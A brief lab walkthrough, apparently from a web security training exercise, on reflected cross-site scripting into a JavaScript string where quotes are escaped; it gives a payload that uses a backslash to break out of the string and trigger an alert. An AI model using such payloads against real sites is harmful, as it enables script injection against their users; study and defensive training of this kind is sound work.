 # Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

Search for `';alert(document.domain)//` and see that it is escaped as `'\';alert(document.domain)//'`

Add a leading slash to escape the escape character and trigger an alert: `\';alert(document.domain)//`